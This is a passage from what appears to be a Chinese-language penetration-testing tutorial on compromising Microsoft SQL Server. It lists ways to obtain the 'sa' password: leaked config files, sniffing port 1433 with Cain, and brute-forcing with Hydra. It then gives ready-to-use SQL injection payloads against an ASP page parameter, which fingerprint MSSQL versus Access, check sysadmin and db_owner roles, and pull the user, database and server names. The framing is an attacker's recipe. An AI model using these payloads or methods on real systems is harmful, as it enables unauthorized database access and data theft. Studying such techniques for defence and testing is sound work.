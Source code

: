 ### <a class="reference-link" name="2.2%20sa%E5%8F%A3%E4%BB%A4%E8%8E%B7%E5%8F%96"></a>2.2 sa口令获取

<a class="reference-link" name="2.2.1%20%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2"></a>**2.2.1 源码泄露**

比如我之前遇到过的页面配置文件泄露，暴露了SQL Server服务器地址<br>[![](https://s1.ax1x.com/2018/08/18/Pf1LdI.png)](https://s1.ax1x.com/2018/08/18/Pf1LdI.png)

git文件泄露，www.zip等等

**<a name="2.2.2%20%E7%AB%AF%E5%8F%A3%E5%97%85%E6%8E%A2"></a>2.2.2 端口嗅探**

使用**Cain** 等工具进行1433端口嗅探，可能能够获取密码

<a name="2.2.3%20%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3"></a>**2.2.3 暴力破解**

使用Hydra等工具直接对sa账户的密码进行爆破，所以说弱口令真的是很伤啊……

<a name="2.2.4%20%E6%B3%A8%E5%85%A5"></a>**2.2.4 注入**

<a class="reference-link" name="%E5%88%A4%E6%96%AD%E6%98%AF%E5%90%A6%E6%98%AFMSSQL"></a>判断是否是MSSQL

报错

```
asp?id=49 and user&gt;0
```

产生报错信息，还能拿到数据库的用户名，岂不美哉

系统表回显(IIS 报错关闭的情况)

```
asp?id=49 and (select count() from sysobjects)&gt;0
asp?id=49 and (select count() from msysobjects)&gt;0
```

如果第一条返回页面与原页面相同，第二条与原页面不同，几乎可以确定是MSSQL，否则便是Access

<a class="reference-link" name="%E5%B8%B8%E7%94%A8%E8%AF%AD%E5%8F%A5"></a>常用语句

权限判断

```
and 1=(select is_srvrolemember(‘sysadmin’)) //判断是否是系统管理员
and 1=(select is_srvrolemember(‘db_owner’)) //判断是否是库权限
and 1=(select is_srvrolemember(‘public’)) //判断是否为public权限

;declare @d int //判断MsSQL支持多行语句查询

and user&gt;0 //获取当前数据库用户名

and db_name()&gt;0 //获取当前数据库名称

and 1=convert(int,db_name())或1=(select db_name()) //当前数据库名

and 1=(select @@servername) //本地服务名

and 1=(select HAS_DBACCESS(‘master’)) //判断是否有库读取权限
```
